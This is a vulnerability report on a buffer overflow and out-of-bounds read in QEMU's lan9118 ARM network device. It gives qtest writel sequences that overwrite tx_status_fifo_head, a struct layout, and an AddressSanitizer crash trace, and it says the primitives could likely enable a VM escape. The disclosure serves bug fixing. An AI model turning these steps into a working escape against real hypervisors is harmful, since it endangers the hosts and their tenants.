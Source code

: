 # Buffer overflow and out-of-bounds read in lan9118 NIC

# Buffer overflow and out-of-bounds read in lan9118 NIC for ARM

There is a buffer overflow in tx_fifo_push in lan9118 NIC for ARM causing an
out-of-bounds read of tx_status_fifo. The write and read primitives are so
powerful that they can likely be abused to escape the VM.

## Read primitive
In tx_status_fifo_pop, there is an out-of-bounds read at the line:
val = s->tx_status_fifo[s->tx_status_fifo_head];
because there is an overwrite of s->tx_status_fifo_head.

Security Impact: because s->tx_status_fifo_head is int32, so this read primitive
seems powerful.

## Buffer overflow and the write primitive

In tx_fifo_push, there are three states for tx_fifo: TX_IDLE, TX_B, TX_DATA.
However, because of the lack of the check of s->txp->len, we can visit
TX_IDLE->TX_B->TX_DATA many times to overflow s->txp->data whose size is only
2048 then overwrite s->tx_status_fifo_head.

This can be done like below. (Suppose the hardware address of lan9118 is 0x5000000.)

First, the max size of the buffer you can write once is 0x800. The pattern is in
the following.

	writel 0x5000020 0x800 // 0x800 bytes buffer you’d like to write
	writel 0x5000020 0x0
	writel 0x5000020 0x0 … (0x200 times) // issue 0x800 / 4 times

Second, repeat the first step (change the size of the buffer you’d like to
write) and reach where you’d like to overwrite.

```
    LAN9118Packet tx_packet;     // last field: data[2048]
    int32_t tx_status_fifo_used;
    int32_t tx_status_fifo_head; // overwrite this
    uint32_t tx_status_fifo[512];
```

If I’d like to overwrite tx_status_fifo_head, then I should issue instructions
in the following.

writel 0x5000020 0x8
writel 0x5000020 0x0
writel 0x5000020 0xaabbccdd // overwrite tx_status_fifo_used
writel 0x5000020 0xddccbbaa // overwrite tx_stats_fifo_head

Security Impact: Because we can repeat the first step without limit, this write
primitive seems very powerful.


## More details

### Hypervisor, hypervisor version, upstream commit/tag, host

qemu, 6.1.50, c52d69e7dbaaed0ffdef8125e79218672c30161d, Ubuntu 18.04

### VM architecture, device, device type

arm, lan9118, net

### Bug Type: Buffer Overflow; Out-of-bounds Read

### Stack traces, crash details

```
AddressSanitizer:DEADLYSIGNAL
=================================================================
==426==ERROR: AddressSanitizer: SEGV on unknown address 0x62cf773fa008 (pc 0x561e8635387a bp 0x7fff71ca92a0 sp 0x7fff71ca9260 T0)
==426==The signal is caused by a READ memory access.
    #0 0x561e8635387a in tx_status_fifo_pop /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11
    #1 0x561e86352b79 in lan9118_readl /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:1249:16
    #2 0x561e86aea48c in memory_region_read_accessor /root/qemu/build-oss-fuzz/../softmmu/memory.c:442:11
    #3 0x561e86ad2895 in access_with_adjusted_size /root/qemu/build-oss-fuzz/../softmmu/memory.c:552:18
    #4 0x561e86ad2895 in memory_region_dispatch_read1 /root/qemu/build-oss-fuzz/../softmmu/memory.c:1422:16
    #5 0x561e86ad2895 in memory_region_dispatch_read /root/qemu/build-oss-fuzz/../softmmu/memory.c:1450:9
    #6 0x561e86971a83 in flatview_read_continue /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2810:23
    #7 0x561e86a2cf0a in address_space_read /root/qemu/include/exec/memory.h:2518:26
    #8 0x561e86a2cf0a in qtest_process_command /root/qemu/build-oss-fuzz/../softmmu/qtest.c:568:13
    #9 0x561e86a2cf0a in qtest_process_inbuf /root/qemu/build-oss-fuzz/../softmmu/qtest.c:797:9
    #10 0x561e86c15d5b in fd_chr_read /root/qemu/build-oss-fuzz/../chardev/char-fd.c:68:9
    #11 0x7f0e3bfa23a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)
    #12 0x561e8707e8e7 in glib_pollfds_poll /root/qemu/build-oss-fuzz/../util/main-loop.c:231:9
    #13 0x561e8707e8e7 in os_host_main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:254:5
    #14 0x561e8707e8e7 in main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:530:11
    #15 0x561e86b38138 in qemu_main_loop /root/qemu/build-oss-fuzz/../softmmu/runstate.c:725:9
    #16 0x561e85ac86a5 in main /root/qemu/build-oss-fuzz/../softmmu/main.c:50:5
    #17 0x7f0e3ada2bf6 in __libc_start_main /build/glibc-S9d2JN/glibc-2.27/csu/../csu/libc-start.c:310
    #18 0x561e859ef589 in _start (/root/qemu/build-oss-fuzz/qemu-system-arm+0x1108589)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11 in tx_status_fifo_pop
==426==ABORTING
```

## Contact

Let us know if I need to provide more information.
